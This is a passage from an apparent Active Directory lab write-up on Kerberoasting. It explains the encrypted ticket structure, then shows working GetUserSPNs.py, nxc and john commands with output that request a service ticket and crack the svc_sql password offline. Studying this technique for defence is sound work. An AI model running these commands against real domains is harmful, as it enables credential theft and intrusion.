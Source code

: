 This ticket has an `enc-part` part [(referred to as `EncTicketPart`)](https://datatracker.ietf.org/doc/html/rfc4120#section-5.3) that contains authentication information about the client:

```
EncTicketPart   ::= [APPLICATION 3] SEQUENCE {
        flags                   [0] TicketFlags,
        key                     [1] EncryptionKey,
        crealm                  [2] Realm,
        cname                   [3] PrincipalName,
        transited               [4] TransitedEncoding,
        authtime                [5] KerberosTime,
        starttime               [6] KerberosTime OPTIONAL,
        endtime                 [7] KerberosTime,
        renew-till              [8] KerberosTime OPTIONAL,
        caddr                   [9] HostAddresses OPTIONAL,
        authorization-data      [10] AuthorizationData OPTIONAL
}
```

This information is encrypted with the service account's password hash, which prevents the client from reading and arbitrarily modifying the ticket.

However, since this portion of the ticket is encrypted with the service account's password hash, an attacker can request a service ticket for the service account, and then crack the resultant service ticket offline.

### Abuse

We can obtain a service ticket for this service account using the `GetUserSPNs` command:

```
> GetUserSPNs.py 'asia.earth.local'/'async_testuser-001':'P@ssw0rd' -request-user 'svc_sql' -outputfile svc_sql.tgs

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.tgs
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 10:57) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Alternatively, we can use `nxc`:

```
nxc ldap dc02.asia.earth.local -u 'async_testuser-001' -p 'P@ssw0rd' --kerberoast kerberoast.out                     
LDAP        10.12.10.20      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:asia.earth.local) (signing:None) (channel binding:No TLS cert)
LDAP        10.12.10.20      389    DC02             [+] asia.earth.local\async_testuser-001:P@ssw0rd 
LDAP        10.12.10.20      389    DC02             [*] Skipping disabled account: krbtgt
LDAP        10.12.10.20      389    DC02             [*] Total of records returned 1
LDAP        10.12.10.20      389    DC02             [*] sAMAccountName: svc_sql, memberOf: [], pwdLastSet: 2025-06-18 20:17:19.785428, lastLogon: 2025-06-29 09:53:37.681317
LDAP        10.12.10.20      389    DC02             
[...snip...]

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.out                
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
```